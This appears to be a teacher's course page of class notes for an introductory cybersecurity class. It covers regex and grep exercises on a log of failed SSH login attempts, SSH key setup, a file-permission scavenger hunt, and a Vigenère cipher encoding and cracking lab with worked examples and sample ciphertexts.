- How many unique ip addressses start with 43.*? 51.* ? (~70 and ~10)
- How many unique account names used to connect? (~6700)
- Find the 10 most commonly used accounts and how many times they were used. (hint uniq can count how many when you are removing duplicates. (root,admin,test,user,etc...))
2022-03-17
Solutions from yesterday
Names:
^[A-Z][a-z]+ ([A-Z]([a-z]+|.) ){0,1}[A-Z][a-z]+$
Names with hyphens:
^[A-Z][a-z]+ ([A-Z]([a-z]+|.) ){0,1}[A-Z][a-z]+(-[a-z]+){0,1}$
Examples of useful regex
- Ip address:
^([0-9]{1,3}\.){3}[0-9]{1,3}$is usually good enough when searching for IP's in a list of text which contains valid addresses - VALID ip address:
^((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$could be used instead if you wanted to check for valid ones only - Email addresses:
^[A-Z0-9._%+-]+@[A-Z0-9.-]+\.[A-Z]{2,}$
You can see how complex email validation is here: https://www.regular-expressions.info/email.html
This is mostly moot as:
"Don’t go overboard in trying to eliminate invalid email addresses with your regular expression. The reason is that you don’t really know whether an address is valid until you try to send an email to it. And even that might not be enough. Even if the email arrives in a mailbox, that doesn’t mean somebody still reads that mailbox. If you really need to be sure an email address is valid, you’ll need to send an email to it that contains a code or link for the recipient to perform a second authentication step. And if you’re doing that, then there is little point in using a regex that may reject valid email addresses."
Activities
cd into your ~/Documents/cyber_resources/regex folder, or scp the files to your current directory on your personal computer.
Intermission : Getting files
I am assuming you can scp or ftp a file from a system you can log into.
If it takes you more than 2 minutes to get a file from the stuycs network to your personal device, stop using your personal device and log into the lab computer to do your work. When you learn to transfer files then you can use your device again!
Back to activities:
There are two files the Shorter file is better for teting, as you don't have to worry about a long output.
Grep to filter out:
Try to use grep on the ShortFailedAttempts.txt to find only the root attempts.
grep ????? ShortFailedAttempts.txt
If you get that working, use wc to count how many there were.
How many root failed attempts were there?
How many non-root failed attempts were there?
Grep with regex:
When grepping a file, you can use regex as follows:
grep -E 'REGULAR_EXPRESSION_HERE' ShortFailedAttempts.txt
A complete IP address matched like this:
grep -E '([0-9]{1,3}\.){3}[0-9]{1,3}' ShortFailedAttempts.txt
You should see that grep highlights the matching values...
Since I already only included lines that contain IP addresses this is just so you can test a regex you already know.
the power of sed
sed is a "Stream EDitor" that lets you do live replacement of program output. You can find/replace text and use regex to help you.
Do Now
What kinds of strings does the following expressions match?
Here are some test strings, decide if each string matches regex A , B or both
- Reeeee
- REEEEE
- ReEEeE
- ReEeEe
- Rffffffffe
- Rfefefefee
- Re
- REE
- REeE
- ReEee
- Rfffe
- Rffee
- Reeeeed
- REEEEEf
- ReEEeEc
- ReEeEet
- Rffffffffet
- Rfefefefeef
classwork: valid name regex checker
Write a regex that checks for valid names.
A valid name consists of the following: first name, an optional middle name or initial, and a last name, separated by spaces. First, middle and last names start with a capital letter and are followed by one or more lowercase letters. If the name has a middle initial, instead of a middle name, it must be a capital letter followed by a period.
Sorry we are lumping 2 part first names or two part last names into "middle names" to simplify things. We are also not including titles like junior, senior, esquire etc.
Examples you should paste into https://regex101.com/
MATCH:
Joe Public
Joe Q. Public
Joe Quincy Public
Ferris Buler
William M. Mason
David Copperfield
DO NOT MATCH:
Joe P.
Joe Q Public
Joe Qu. Public
Joe Quincy Reginald Public
Joe Quincy Public, the Third
Dave P.
Little Richard III
Placing
Your answer should be something like this (spaces will represent actual spaces):
[a-z]* [a-z]* [a-z]*
To match a whole line, so that you don't get partial names, we use the ^ for the start of the line, and $ for the end of the line.
^[a-z]* [a-z]* [a-z]*$
Challenge: Lets not forget some last names are hyphenated!
optional: (Hyphenated last names with upper case) Abby Smith-Fitzgerald Aerating A. Silver-Kimono Joe Quincy Public-Defender
Discussion of the assignment
Issues with yesterday's assignment.
Regular expressions
- . : any single character except newline
- * : zero or more of the preceding match
- + : one or more of the preceding match
- [abc] : any one character of a, b, and c
- (a|b) : either something that matches a or b
- ^ : the start of the line
- $ : the end of the line
- \b : a word boundary
You can use these (and more options) to find or validate strings.
Create a regex that will match some of the following words but not the rest using what you know of regex:
- 2 or more z's in the middle.
- match: wazzzzzzzup
- match: wazzup
- skip: wazup
- skip: waup
- even number of z's but not 0.
- match: wazzzzzzup
- match: wazzzzup
- match: wazzup
- skip: wazup
- skip: wazzzup
- Three words but use their components
- match: abcdefg
- match: abcde
- match: abc
- skip: all other words
Regex training here:
https://regexlearn.com/learn/regex101or here:
https://regexone.com/I absolutely needed to use https://regex101.com/ to help me tweak my expression.
Adding your keys to a remote computer:
You need to add your ssh keys to things that you want to use them with:
ssh-copy-id your_username@your_server_address
This will ask you to log in with a password, but then allow you to use your ssh key each time.
ssh key agent
How can you avoid typing your password each time you ssh onto a computer?
Documentation here: https://docs.github.com/en/authentication/connecting-to-github-with-ssh/generating-a-new-ssh-key-and-adding-it-to-the-ssh-agent
To start the ssh-agent in the background:
$ eval "$(ssh-agent -s)"
To add your key:
$ ssh-add ~/.ssh/id_ed25519
ssh -t
The -t flag for ssh allows you to give ssh a set of commands in quotes. Ssh will then run those commands on the remote computer and then close the connection.
if you had a file named CYBER.SECURITY.????? in your tmp folder how would you find it?
How would you find it if it were on another computer?
Scavenger hunt and questions
All of you must find a clue in the /tmp directory of one of the CS lab computers.
Questions
- Which file is executable by everyone? How did you know?
- Which file is in the student group? How did you know?
- Which file is owned by the person with UID 1000? How did you know?
- Which file contains 1299 words? How did you know?
- Which file contents cannot be viewed by you? How did you know?
- Which file contents has a sha256 hash of 76a680b91b1e011d1f0f3306c36879efed20e97baa74e042f8b93b02e3ab984e? How did you know?
Vigenere Lab
Lab Repo make a new directory: Lab02-vigenere
Required make Recipes:
note: I forgot what I wrote on the board, i THINK it was guesskeylength
-
make encode ARGS="plaintextfile keyfile"
print the ciphertext after encoding. -
make decode ARGS="ciphertextfile keyfile"
print the plaintext after decoding. -
make guesskeylength ARGS="ciphertextfile"
print the length of the most likely key. -
make crack ARGS="ciphertextfile"
print the plaintext after decoding with the most likely key.
Examples: for encode/decode:
example 1
Plaintext: We know what we are, but not what we may be.
key: ABCDEFG
ciphertext: WFMQSBCHBVZIFXECWWRTZWICWAJSAZDH
example 2
Plaintext: Wherever you go there you are!
key: ASDF
ciphertext: WZHWENHWYGXLOLKJRWBTUSUJ
example 3
Plaintext: We know what we are, but not what we may be.
key: ZYXABC
ciphertext: VCHNPYVFXTXGZPBBVVMMQWICSUBMBAAC
Examples: for crack/guesskeylength
I am adding only one block of text with two keylengths to give you something you can test against.
Plaintext for Orwell
It was a bright cold day in April, and the clocks were striking thirteen. Winston Smith, his chin nuzzled into his breast in an effort to escape the vile wind, slipped quickly through the glass doors of Victory Mansions, though not quickly enough to prevent a swirl of gritty dust from entering along with him. The hallway smelt of boiled cabbage and old rag mats. At one end of it a coloured poster, too large for indoor display, had been tacked to the wall. It depicted simply an enormous face, more than a metre wide: the face of a man of about forty-five, with a heavy black moustache and ruggedly handsome features. Winston made for the stairs. It was no use trying the lift. Even at the best of times it was seldom working, and at present the electric current was cut off during daylight hours. It was part of the economy drive in preparation for Hate Week. The flat was seven flights up, and Winston, who was thirty-nine and had a varicose ulcer above his right ankle, went slowly, resting several times on the way. On each landing, opposite the lift-shaft, the poster with the enormous face gazed from the wall. It was one of those pictures which are so contrived that the eyes follow you about when you move. BIG BROTHER IS WATCHING YOU, the caption beneath it ran. Inside the flat a fruity voice was reading out a list of figures which had something to do with the production of pig-iron. The voice came from an oblong metal plaque like a dulled mirror which formed part of the surface of the right-hand wall. Winston turned a switch and the voice sank somewhat, though the words were still distinguishable. The instrument (the telescreen, it was called) could be dimmed, but there was no way of shutting it off completely. He moved over to the window: a smallish, frail figure, the meagreness of his body merely emphasized by the blue overalls which were the uniform of the party. His hair was very fair, his face naturally sanguine, his skin roughened by coarse soap and blunt razor blades and the cold of the winter that had just ended. Outside, even through the shut window-pane, the world looked cold. Down in the street little eddies of wind were whirling dust and torn paper into spirals, and though the sun was shining and the sky a harsh blue, there seemed to be no colour in anything, except the posters that were plastered everywhere. The blackmoustachio'd face gazed down from every commanding corner. There was one on the house-front immediately opposite. BIG BROTHER IS WATCHING YOU, the caption said, while the dark eyes looked deep into Winston's own. Down at streetlevel another poster, torn at one corner, flapped fitfully in the wind, alternately covering and uncovering the single word INGSOC. In the far distance a helicopter skimmed down between the roofs, hovered for an instant like a bluebottle, and darted away again with a curving flight. It was the police patrol, snooping into people's windows. The patrols did not matter, however. Only the Thought Police mattered. Behind Winston's back the voice from the telescreen was still babbling away about pig-iron and the overfulfilment of the Ninth Three-Year Plan. The telescreen received and transmitted simultaneously. Any sound that Winston made, above the level of a very low whisper, would be picked up by it, moreover, so long as he remained within the field of vision which the metal plaque commanded, he could be seen as well as heard. There was of course no way of knowing whether you were being watched at any given moment. How often, or on what system, the Thought Police plugged in on any individual wire was guesswork. It was even conceivable that they watched everybody all the time. But at any rate they could plug in your wire whenever they wanted to. You had to live -- did live, from habit that became instinct -- in the assumption that every sound you made was overheard, and, except in darkness, every movement scrutinized. Winston kept his back turned to the telescreen. It was safer, though, as he well knew, even a back can be revealing. A kilometre away the Ministry of Truth, his place of work, towered vast and white above the grimy landscape. This, he thought with a sort of vague distaste -- this was London, chief city of Airstrip One, itself the third most populous of the provinces of Oceania. He tried to squeeze out some childhood memory that should tell him whether London had always been quite like this. Were there always these vistas of rotting nineteenth-century houses, their sides shored up with baulks of timber, their windows patched with cardboard and their roofs with corrugated iron, their crazy garden walls sagging in all directions? And the bombed sites where the plaster dust swirled in the air and the willow-herb straggled over the heaps of rubble; and the places where the bombs had cleared a larger patch and there had sprung up sordid colonies of wooden dwellings like chicken-houses? But it was no use, he could not remember: nothing remained of his childhood except a series of bright-lit tableaux occurring against no background and mostly unintelligible.
Key1 for orwell: SHORT
Orwell encoded with SHORT: (newlines added for readability)
AAKRLSIFZZZAQFEVKOPBFHDIBDHBUMZLQCHURGNXJLGKKARWEZLOWIMWLBNBFZHFGKTWKAZPGTAAUBLSRSSUBFACYBKIFVTKAWE TFLTWHJAHFXKJOGXLOSMBDLKZGVZZZIHLRHNAJYCRLOFFNYOHYXYSOJLVVCILGMJZVLVFPFSUGZHFZHYHMNVEHLXIZVCSMVGGBU YMGWFVOWUHRLOPFCHXNFZMLFRLLLMFFFWUHVKAUUREGUUNBLOVZFLOSYTDSKRRKTSCMGMPFBDLRTTTIOXXSURFEVYOXFSAGRMGU SVGVVTZMSJCCHMYSUIGZHVKLVCCTJNSWHJPBUHGYRZLHSOPASKPVXFAOTDWKHFMZLKREDPHUXHPQKXVZWDIDFOEXFVFDHMZTRVW TCIXLOOETELHIXOPRVMZLTRVWVTRFSUCWTTVIKYGYHPYACSNBLOOYXSCMSESJYDHMZHRVZLOEWJBUXXVSMYTFKGFFWMSRMMYSJP AUGKHFTOUXXVFKAWZHRBJZWKPSZBFNKLHIRAUUKAWSWWMWCSETLAVVUWZHFYLPAVLAAKRLKLZUHEDCIDAUURGVHHGKWZSEMLOSV EWJHIBUJIIKWUHNTKJIKHXMRLKAUUUTQSWXALOCLKKPHNTKWOIMGMHYXWJCEHEFRIBNLWEIJLDRKSAWFGXVFYTLLKVXCAVVYDHH NTKZSMXFMZZZZAGLISURNBFZHFGOOCNTKAVZKLFBZGWHBUASKOMTJPQFLWBZTXJHPFOWOWJKANVKTFRZVPWUHJEGDZPKWZHZGYZ SMXJHZKBELGFGLOSNTQVBVTUOZRGVPBXHHWCJBLLHYXDPTKLZHTKMZLDFLLLFNBLOHYXWUCIFGBGWTULURSWKTIHEAVVPSSZZMO HGFGWVTKAGZSGBUAIIXKDVZVZHFVLGJCEMJPJVWLOOKMZLSPXKMCCEGDMFNSICLMOOSERGBAFOWIWXUJVHYXJPGNTLJVZGYFCLM ZLQRILPCEUWUSRMZPHITFPBJBVLHYXXSOKTXYIZMQCCZVWDOJKWHRZGYVIKTDPGKHXMWXNJLGNAAJVYTVZCDXLOWEZLVRFPAAVK AWWFFWMJHZHFVTGBYPFFGLOSMHAJSTTELTIHEHBFUDVBXFWAOCIDHELXDPYVTVBZCXVTWIKGYKYBUOTFKELRGTJACWMZLGLKXHQ VHXAVVKANVKASURNTDSKZGKACEMMYBVWSZKZMUOOEWLOSMHAJSJTFRGFFWDVRMLOCLZZAVVPGYRJPWYSJMASZUBKAWEZMPGYTTS SKAWPBJMJBAVGLAVVMWSSJVJLSEBLDOJVSSZVWUVICWTLRZFELRSNLAVVKWDOJGGDOPHXZVLMLPBXBLVTWVGTDCXLLZPAWTCMXV VJVKLVHYXOPBUHOHGDTDSWJAXYOZEXPULKWAVVFWHUIXFLGJHXOWJUGKMDXJLZPXEWVRLAGSUUQAVVUDBSFOWYOCEKDVZVZDSIX LOSLGAMCIFGMHYXHHFKRZPGYTAYKRLNLFPYSPFYBKMOTXFHHLKSSZPLSUULBFLVZLKRWEKGBUYXFLRSRUVOILWZCRISURSEMUHI TRVFSESKSJTFKHYXUVZUHXAVVPAUHVKLOOKASKXLLLLBUXVVIKLAKSVOWUHYKGBUYMZLGYNLDWEWGDDRGWAVVPGYZUEGVYVWUVZ UWGDBZGLOSJMJLSKEAAHCXWKRZXKVTNBFKKVKWDVZKDPBXWMZHRGVACIGHHDVKAUHFLHPFREKHBUMZVIXALOSJNFDOJLZPBZGYH BUMZLGBRSOOILZIZLXLOSIXKLSDXVACSXFVQFEGBFZGSUMKAAUUVQULDKMZLDFLLLFJMZHHNXJLDCTKASIXVLJVKQDVVKWAVVUD HQBFGBGKTUOWFWXHQVZSGSUWGDBWKGTSMXJFQFFEHBUBFNQFKFLFKAWYSNTKVBVHFAVVAGBGVYJVBKBETSUBSASCRGWDFLAASSB YIFFMZLFZLOHHTAAUUPHMAVVVSWHZHFZOZWOOWCXLOSUTJRSPXKSCFDWKRVXHPBKHOPBJMGUGFPFKCNGSAGKKWLHCXNLZRGGAVV KHVGKXJACIGSACEXUVFEXJMZRIHLRWBLMICEQPBKAWDWEWSSHVKFHHVEQJCMXJPBXTFKIEVGCSIBFNHYXKPBXEWDCIWAUUJHUPB KAWMOIWAZHRGULOYXDPQFILLFJDATAVWVVKEUWAKVXFAVVKGVTJAGCSIXVMCITFPBJMSUHCBCLOSEMLPFMLSSRGVKOIMWKONTQH URBFDWKASJIIOAUUWEANVKBLDOJMZLDFEAJSGTLYCCLFVCGBFNWEMGWSFIDLGNBFKCNLLOSGTLYCCLVPREHLTOKMWYVFPWCSIHF SMKAWAVFNYOHGHDPQVFSAHVKWKPVAAURNBFZHFGKIOTDLOSMHAJSWKGTHYXLLZVLUYSVGOHGJMASZSTTIZZGYHKRRSICLMHPUZK GUOEWLOSFOWYTLEXPZDXFACWMZLBZGLOHYKWLMVTJWZRGLOSKXDLGTKWLBIXULWMXVHBUMJHBJFAAHVWKPALELHBVHMZZPTFFGF NFKHYTLDWELLVBDTVLOSHNLHYXDLJVEGMOMXJFZFPOOWJIWYKFNDKPVIAJYVWMWPPBLTCIXGCSILGSCEZSZVVKWTOZGWKKZMZPB KAWMWVEVVTMBKPCEPZPQYMZLAVMSSDCTIBSTHETOEWWKVVVGBZUUWZSVGSZKVEDHGYXSYRKAWYSNTKVTTHMYGVGGDOPHXRBFPAU UNAWAVVKQVINXJLPVBFNKRMUOSUTLHBPZACSEFGTSEMZVKFYLLBFKGUKYTLZMJMWTHYXLOCLZZADFEAJSGEMNUVWAUCETFFWEWA CWUNSSKZKWDOJZMLGJPGYYZMOHGVOWUQFGULWMTTSSKASAHYXQDOKVZLRVOWYMSHVFOCELOSKBELPLMSAOERJHHVMZLMTHMSRGE MNWERGBFNBJLKYXFLJVKLOSPPSUHVWLVMFNZHRKHDPJVWAKZZOWMFFFZHPZMLOOKUWJODXAUGKBFJHZGLOSRLKBAGMAVBKASASM XJFGFNFKMFNEHRVPSZCMXJOSRKVHBUXPJSGMAURRKCUSJLWCSIREVJVFWUHJVJBHZGAGSUPAUGKHFRSGMZPGSTURHLKFLRKHLOS KXDLGTKWLBZMOHGJTXLFKAGBUYTKOSNXDSYEXOLJVGSIOTDUHBSXJLJVTDPBXTCPZFFWAFVTOHMKAWTWEBKAFPHXAFLMZOWJIDH QVHXDCIDLVKVKWKJRLLHBUPZPHVTTVJVMZLUIBEFZRGVZQRIWAVZLZLHYHMNVKPAAVRLGYHFYNHULXVPGKTKASKAAZKRLDVBUHF JVZXXJWKRGMOZKKAFZIGUSZMKLZWMZLHYBJKAFLLWCGNDVIJHXAVVIJVJZGULGFYGJSRGAHVVMJPSUMGZELXWGSFNLZCDXUOWCW ZVCUFWTCIRLOOKLZVICWLLZCAATKYXLOSIEGURFGZHRREOHMJUWLBHNAASCBCLHYBKDSIXLOSIXSSKRRKAVVLWCWJMSZCWKGAHZ GYUWEXLLSEMZJSEMMYMYHMZSJMZLWILAKSJLZVFVWMWKZMZIOLECZCWMATPVKLOSZKOPBUHOZDRMUOSUPAAVTTJKPFTJKOEWLOS ZKJVCWLOPHYVGYFLZSASUBJVBKAWPFTKSGMXTJKSEPSSZJLSNUZGYPBREDKWIXUAWFGKHBUMZLPFFTLRJBLLGNAWYSKAWWZRLLL FUNKAGNBJSSUBFAVVTAYOEWLOSNBDSCNAWYPJMJHUXEWKCMXJAVVAWHDJHXYISUDLOEWLOSGESJSJPZLFVMZLPFFTZVRWUSSRKW KOCTJNSIISAQYTFKHYXJLVRWKWFLGYBDJHJKWUVGSCEBWZCWPGVRVGVDSCEAUUJEARSTAAJYVGZVIJXKIIKBLDOJGGBGVAWJCLE VUCKKWTSDUWYBFMZPBXKWTOZGWKCWAAZQYBDKVFHVLLTXHAOJXJPSJHXIFZZZAZZMLHPCXSBLFVUBFIBFNOXTAUGKGGIOTDYYCL GVHBUFGZHCRMUWEMWSZZZAIZV
Orwell encoded with: THISISLONGER
BAESASMFVMLKVVTVLSJWAGTIBSIFLLSSPRSTDZEWZWDHEOOZGNBZQJESRTAZGZBGVKXWGNLZLJPAVFFNMRIUBUBGPADPEKEJM PVSVWQTBXXKHLAUIHPHUKZZELEAVVDZVVTVWXCAKCWMGNVFNNPLPWRZNYWUHVZKWXGWPZSIRTIFAAZBFZLFNNPFWLBIVIOCRL VGCYSHBVVVOLVLIKHWERSWZYQLBQOIFZJIHTMFBWCWAMECHUOOQLSVVSXYXOIDTOLMFSICMVNTWAWSQIESUHOWIFOCYJVRZTI LASECAKIEWVNABSNCYUYIXKXGALPFGUSCTYOWNGCWAJSFKKQKXDLMUGHSXLVLIUVSQZSKALESTDTHQKTZVAMVAAXDYEEEXUWJ UGFGSGGVFVZWBZLBNSIKKLEALWEVRLETXVNSUSYCSGFFNANGZLJTVBINBAPSPWLJLHPRVRUGCKEOPNIRGKZMOYPRYELRGKAGU WQSNZYIXZEAVKECASEUXMWJBZPGGGMILPBOIKYCHYIKKFQFOLSSYOJKXCMFILEVRHIJMVNLQEPGVZARLZMDLGXKBXOZGNIFLS EDEKWVGABZMWWSPZVZVJCJZWYHJGWTNAWXNVFFVTKUTFTAOZEVBAVJBAESAHLFGUJKALMUWFZALJVZOLQFXJPDNXEKBVVXWJS OGKAVXRBZMXWOGCEJLLDWVXWWTNXJNWIFLOTBFZSEPOWOIKEVVXXPGPVWIFOVNJEMTYQUWKPIYIIITIWNMZTGEOKYMHVCTWHS AZWCHDTQZWDHVTKJXCMJIDEWZKWFGAPWESJCAKETASIFLAYUBVTFLPBWBZPZVLXJAHNLBZPDBYXVKDQLPLSSRTSIFVCKNSNST GDVWMZGULSSJGPCBAESAGYSBLXYHZMHQUEIEKWNAPKZIJPGBISEMYQNMVEVNZXYXLGWAXZZYUAPHBITWMEKUKRPHBUGDWMWTH VFMOMJQKHOGILZGNGGCLSSPGTKBVVTMFPOGNMKKHVAVKTRRZLVYSILIXCIVZCMHPKWESDFRGHZGNWMBSWWFZSWYPOMZWDKUOG YAHLKWEPHUORXMVLGEAEVGNIGKVLMKLTCAUJGBNQJWFEVRBSZVLKSUWQFBSEEHITGVYXSGGPGEHYMMDTYRGHLESMVUACFBXAY BJPXWJXSQVEIMVNLPWDIELETXVNLPWCWTNXYTULOIDWKVTWKHUBMZFPRNYAZMJPSVVEVRBSZVLASVCDCZKAYTABZWMRVGNINH YLKEWCSFZMCEKQKBAYUHOWYTITWBZPWAYXINTMFBLSSGKPVLJZWMFTHJGWTTSTWLUZIYJFVWPUEMVMIGZLVKLESAFZKNESWLO CLBAYUVZSWYJWEXDPHRRCYXTWNMVZJRXXFMOMOQFOCJGWDTSTAAZQFNOPWBNCJMLSSZKEXKLVWAKZTUOWSHKGEMJPZLKQGAHA AHWOPLZLVUSCWWNPFNRPJPOQUPOPFRZLVNUQXWJXCSZLVIHZLGZTGUGMIPHANMJJTNOVYBZNSKWYOGAVRESGKIFRIVTIYBZAC QFCCHMLVGLLTGUZOEYIJHHXSVVMZHTXITGWJJDLRRYEEWAPWKGWRBLXYXDQFBWCHUGXYTKRMALPBQKHFNAAALWPJRTXYKVCYP LSSFNYKPPVVWOAOAKXYXDWJTVWCBQIUVVTVLGHBVTXYXZBJMWEZVZXCXLLVQWDCSCMEWDMJMOSWERMEZKCKBSYRGUVEIHXWZA YHBYTZKHTKIFOHUUYXAAPWAMYKNYWYBUQFOSYRGNIJDFIZIJDVORYVMOMJMKPSZKHKHIMFWUZZBAVZGHVQBZTBTKBTXWBLPWA CFZIILAPSBOPFRVPRLAMJMVPJRXCNALZWBZPPYGGBFVCKBSNVVUHWTJMYIRPRQUAEYYWEMNPFLISDFHVVQFRQBXRVKAPWZWHO FURVHUBZMZZIFKJIHUBAUEPRVGXVEFWHXGDWGKFZZIZGBZPFVYARMJPAVYJCHZLVVHXLQGYGNOHNAPTWBZPRNXOVRLADWGVSQ JIVIPVLWOTBFZSELVEFLGHBNZWKKLMLTWGSYGRFMOMJXGDHRXXFKUILWFPQBXRVKMTSXHPRSOXWNSTQQFEVRCMEWHTLMJYOGK PPVVDWZAYUNTHLGJWNMJTBTZLVLPVYTWHCEJMEZZWUQFEVRLEIWPALIFNSNNICBJWHBWCGXOQDXKLGEFMSGCIVGAPWZGZTFNS MXYMVNGCOAORJMHVLTAVSNHPLXIWLBDPOAJHRKAMVIOLMNMEZGDQLPSNIEBMEZMTAOZEWGCEJMOMHWDTQRVEKKVTKVGZDVTKZ GAWHMGAZRYAZGKWOALSSCGXIHSAVQVYCGSEKMLZZWOPJRXSEEFBZMLSCHMLKIVTAKWXOGZIIXKJWPAYRJORJMVVKJSNYGNIMH PKWNJZAGNIKXSMKKJPSACEJLAQDTTLPORMEZHESGSMCHZTZZPZGVSYRGNIFOLZXCDQWYSIEMVNLPWYWAZLKAYMWGWLFCREEMO MLMDPGPXIVGYMUMAGSQGRUMYIFAETHGKHJBTCDBSYSBAWCRHVQAGFBQZLRMDQFALZBZGHVTIWNMLSSYKZVEVNSDWCMYUANAPA HMJHCHRHSXWQUSWOICHCZMTWJMGGSEYSCHUOSAZPFRSEZGLLOQLSWAZLVYPMDLGQJVYMFGDPAKZEVRSIKTSXDIIFSPUQDTULW LZPQBAPUULAWMFLGJKPCTZPWIJOHUKVVPHAGNUZIEYIEHDIQWXVBBCMEZDPWBZPFLUYNXYMTMAYUJGXTALLSBSYMTOZVGTWEM FEVBCSWMLVGZGYKUGXJRZBWULSSGNSLZOBHWDTQRVPLZNMVQFZBNTCZGKQNQVFOYCMIXDIKOMPGFCSIDPBOIKPJRTGFGJMADS MZRZLRMAPWGOLHPNIUXCMJGTZRLGPCMOMLQEPPHZEKTUGJILPHUKCTHBTVXDFUVTCFNYEAZWHVRTIMXYBZMQHOAZIUMVGGCZL RGUPZOLLALDTJRLVFFOITQLEVNZFVVHUWQFDHVTGKBUBZMSDGHSTKBVVLPSESIKVPLVCFLQZIZGHVPHAGDWCVRGVUTULWFUPD GORUTYSFMKDSIKVPFVDWUWYHFIVLMPVAHWOKVTWKHUSWXLSWFHETDACJVWOHBZLVMLTWAUCSRTMKPHAKIXPFGNSLZOIKPWHSY ROEXDMNMFLPNIOTTUJWZWGSNRMEZHSATGXSGXIRPHGLPWXWAOWKKFWXBJFHUNMJISIUMGQKBXOKHDMJMVGOFZEEWDPABWLPBB IKALOJQEJZNTHJVHXWBZTGUKXYHBOZBOTHUGWFKAWXDSRIRJMJMHALMLSWFCEJEVVVWFNVVKJTBAGGNSTFFZVZIVVWQLDSYLX YXAPAZVXCFZTFIBTGCKZTGNIGKVDAVUPGBLSTXHVAIZPHEOIUMVAICWPNRUYKLVUWKZTZQNSFWTMEWJJHUGXJAVCDLLPZYNMD POMLPWCZBTHFGOIVIDHOLYFVXUYMQLPZVQIKAPAOMJPHUKVVTSESGKEVRYIMBZBSAGQFBZXZGNVAVWESRTXYVLVLCJJVBAWVL APWQJDWQKWJAVZWLMAKVZLSTBTCAGQHVSFVKAPWQJHWAJSNLWILKZPRJOXYVHZVJGLFQGRUMOMAZJZCSYAZMOKGZJFUNZIUBY WFBZPWEIVRSFOSZVPBJGPCLZIYOAYUVTECEKQJMUEWBTWRGKBZMTZAOKHJBAMKEZPFRZLVISIKBWCRHYXJPPZDMVTBGNIRBYI FLLSSJOPCHDPWZTDHEGKXELLGDWCHUKLVTWAGNJFPORIRGKBZMHWOPKWNALZWBZPPBSFJAHLUTWLFRJECTYOWZHLHPNEEWAPW ZWSOQYTINUOMXKZFQOHTHSWFQWDCSCSFWLVVEWWZVTKJEPSWKZTQXKRYHBAWATFHVZARLUWMAWSSPUYCWUWLZWXSZHIIGVBZQ FRFRSEZGLLGNZTGPNMCWOWGLWIQRVXRLLZAMKZTOXMXAATABLLPYKELQVKUCJCWAMEXTPVKBFZPNIOXKVCFLSYRZUWKEFCFQF ESYRMXBITW
Vigenere Cipher
2022-03-09
Use Long Keys
If the keyword is as long as the plaintext, for example, a previously agreed upon sample of text, the cipher is unbreakable if a new key is used for every message.
JTLOM FJRCS XM
If the receiver uses the keyword hfikeniaoitz they would receive the message:
CODE IS BROKEN
If the receiver uses the keyword hfikenrnaygi they would receive the message:
CODE IS SECURE
Even if it were possible to calculate all the possible keywords of length 12 in a reasonable amount of time, the ciphertext would produce every sensible message of length 12. There is no way to determine which message the sender wished to communicate
One can use a paragraph or chapter of a book as the key, and that would prevent frequency analysis.
Vigenere is about how many to shift each letter
Remember that A means you shift by 0, B means you shift by 1 etc.
Decoding is just shifting in the other direction. It is the same key, not a different one!
Fake a long key!
Another way to make a long key is to encrypt it multiple times using keys of different lengths:
A key of GO would shift letters by 6 then 14 then 6 then 14
A key of CAT would shift letters by 2 then 0 then 19...
Encrypting once with each key has a
Text: ATTACKATDAWN
Key1: GOGOGOGOGOGO
Key2: CATCATCATCAT [pattern repeats after 6 letters]
Ciph: IHSQIRIHCQCU
- A is shifted by G then C (6 + 2)
- T is shiffted by O then A (14 + 0)
- T is shifted by G then T (6 + 19)
- A is shifted by O then C (14 + 2)
- C is shifted by G then A (6 + 0)
- K is shifted by O then T (14 + 19) [after this it repeats back to G+C]
Key1 has length of 2, Key2 has length of 3, but the effective length of the key is the product of their lengths or 6, as there are 6 different shifted totals created by this. (The effective length is the least common multiple of all the keys) Prime numbers LCM's will be the product of their lengths which allows for very large effective key sizes.
Encrypting three times using key sizes 5, 13, 19 would create an effective key size of 1235
Equal length keys such as "FISH" "PORK" "CHIP" "YUMM" would NOT produce a better result, as their relative lengths have a common multiple of 4.
Rename your repo:
Please rename your repo: Cyber_Fall
Please check if I have accepted your invite, and if not, invite me again.
Lab02 Vigenere Encoder/Decoder
spend the remainder of class + your homework time on this. You do NOT have to complete it by tomorrow, I may add more information.
Your program should be able to take in TWO input files (key and text) and be able to encode/decode.
You should strip away any whitespace at the end of the file, in case there is a trailing newline.
Makefile
makefile format would be:
make encode ARGS="cleartextfile keyfile"
make decode ARGS="cleartextfile keyfile"
Input
- For simplicity, you will convert everything to upper case.
- cleartextfile : can have spaces and punctuation. You will ignore non-letters. "HOTDOGSTAND", "Hot dog stand." and "Hot DOG! Stand!" will all be treated the same.
- keyfile : should have no spaces or punctuation.
Output
The output should be all caps, no spaces or punctuation.
Examples
You can place any of the previously given examples to help you test, but here are some samples of plaintext/key/ciphertext:
example1:Message: HOTDOGSTAND
Key: BOAR
Ciphertext: ICTUPUSKBBD
Think of the letter B as a shift by 1, when encoding, and a shift by -1 when decoding.
The letter O is a shift by 14 when encoding, and -14 when decoding etc:
example2:Plain : CODE IS BROKEN
key : hfikeniaoitz
Cipher : JTLOMFJRCSXM
example3:Plain : Code Is Secure
key : hfikenrnaygi
Cipher : JTLOMFJRCSXM
Vigenere Cipher
2022-03-08
The vigenere cipher is a Polyalphabetic cipher that uses 26 different substitution ciphers. A string of text key is used to determine which cipher to use. The keyword is looped when the message is shorter than the key. The below is used for this cipher and is called a tabula recta, it is a 26 by 26 grid where each row is shifted one additional time.

Let us pick a key to use and a plaintext to encrypt. You repeat the key to fit the length of the plaintext.
Plaintext: asimpleexample
Key: battista
asimpleexample
battistabattis
Align the key with the plaint text. For every pair of letters, the top row of the table is for the key letter, the left column labels are for the plaintext. The location of the intersection is the ciphertext.
First letter pair
asimpleexample
battistabattis
Second letter pair
asimpleexample
battistabattis
Third letter pair
asimpleexample
battistabattis
Finish Encoding the example above!
asimpleexample (plaintext)
battistabattis (keytext)
BSB??????????? (ciphertext)
Decoding
Decoding the ciphertext requires that you know the key, and you align it with the ciphertext!
battistabattis (keytext)
BSB??????????? (ciphertext)
First letter pair to decode
battistabattis
BSB?????
Use column b, and find the B in that column. Move to the leftmost letter that aligns with that B... which is the A.
Why is this better?
Look at this plaintext:
